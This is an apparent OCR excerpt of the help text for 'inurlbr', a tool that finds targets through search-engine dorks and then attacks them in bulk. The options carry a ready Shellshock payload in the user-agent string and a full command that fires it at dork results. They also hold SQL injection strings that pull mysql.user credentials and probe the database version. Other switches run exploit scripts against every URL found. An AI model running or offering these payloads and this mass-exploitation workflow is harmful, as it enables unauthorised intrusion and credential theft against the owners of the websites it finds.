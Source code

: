 ```properties

 --url-reference Define referring URL in the request to send him against the target.
      Example: --url-reference {url}
      Usage:   --url-reference http://target.com/admin/user/valid.php
 
 --mp Limits the number of pages in the search engines.
     Example: --mp {limit}
     Usage:   --mp 50
     
 --user-agent Define the user agent used in its request against the target.
      Example: --user-agent {agent}
      Usage:   --user-agent 'Mozilla/5.0 (X11; U; Linux i686) Gecko/20071127 Firefox/2.0.0.11'
      Usage-exploit / SHELLSHOCK:   
      --user-agent '() { foo;};echo; /bin/bash -c "expr 299663299665 / 3; echo CMD:;id; echo END_CMD:;"'
      Complete command:    
      inurlbr --dork '_YOU_DORK_' -s shellshock.txt --user-agent '_YOU_AGENT_XPL_SHELLSHOCK' -t 2 -a '99887766555'
 
 --sall Saves all urls found by the scanner.
     Example: --sall {file}
     Usage:   --sall your_file.txt

 --command-vul Every vulnerable URL found will execute this command parameters.
     Example: --command-vul {command}
     Usage:   --command-vul 'nmap sV -p 22,80,21 _TARGET_'
              --command-vul './exploit.sh _TARGET_ output.txt'
              --command-vul 'php miniexploit.php -t _TARGET_ -s output.txt'
                  
 --command-all Use this commmand to specify a single command to EVERY URL found.
     Example: --command-all {command}
     Usage:   --command-all 'nmap sV -p 22,80,21 _TARGET_'
              --command-all './exploit.sh _TARGET_ output.txt'
              --command-all 'php miniexploit.php -t _TARGET_ -s output.txt'
    [!] Observation:
   
    _TARGET_ will be replaced by the URL/target found, although if the user. only the domain will be executed.
   
    _TARGETFULL_ will be replaced by the original URL / target found.
       
    _TARGETXPL_ will be replaced by the original URL / target found + EXPLOIT --exploit-get.
       
    _TARGETIP_ return of ip URL / target found.
        
    _URI_ Back URL set of folders / target found.
        
    _RANDOM_ Random strings.
        
    _PORT_ Capture port of the current test, within the --port-scan process.
   
    _EXPLOIT_  will be replaced by the specified command argument --exploit-command.
   The exploit-command will be identified by the parameters --command-vul/ --command-all as _EXPLOIT_

 --replace Replace values ​​in the target URL.
    Example:  --replace {value_old[INURL]value_new}
     Usage:   --replace 'index.php?id=[INURL]index.php?id=1666+and+(SELECT+user,Password+from+mysql.user+limit+0,1)=1'
              --replace 'main.php?id=[INURL]main.php?id=1+and+substring(@@version,1,1)=1'
              --replace 'index.aspx?id=[INURL]index.aspx?id=1%27´'
                  
 --remove Remove values ​​in the target URL.
```